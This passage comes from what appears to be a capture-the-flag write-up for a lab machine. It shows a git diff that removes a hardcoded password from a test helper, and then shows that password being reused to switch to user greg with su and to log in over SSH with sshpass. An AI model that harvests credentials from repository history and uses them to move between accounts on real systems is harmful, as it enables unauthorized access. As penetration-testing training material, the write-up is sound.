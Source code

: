 
This file is mean to test logging into the API, and it’s using hardcoded
credentials for greg. In the third commit, the creds are removed:

    
    
    oxdf@hacky$ git diff 36b4287 f7c903a tests/Feature/Helper.php
    diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
    index f57e37b..0586d51 100644
    --- a/tests/Feature/Helper.php
    +++ b/tests/Feature/Helper.php
    @@ -8,12 +8,14 @@ class Helper extends TestCase
     {
         public static function getToken($test, $admin = false) {
             if($admin) {
    -            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    -            return $res->headers->get('Authorization');
    +            $user = User::factory()->admin()->create();
             } 
             else {
    -            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
    -            return $res->headers->get('Authorization');
    +            $user = User::factory()->create();
             }
    +        
    +        $token = Auth::login($user);
    +        $user->delete();
    +        return $token;
         }
     }
    

### su / SSH

I noted earlier that greg was a user on this box with a home directory. These
creds work for grep with `su`:

    
    
    www-data@intentions:~/html/intentions$ su - greg
    Password: 
    $ 
    

And over SSH:

    
    
    oxdf@hacky$ sshpass -p 'Gr3g1sTh3B3stDev3l0per!1998!' ssh greg@10.10.11.220
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)
    ...[snip]...
    $ 
    

greg’s shell is set to `sh`, but running `bash` will return a better
experience:
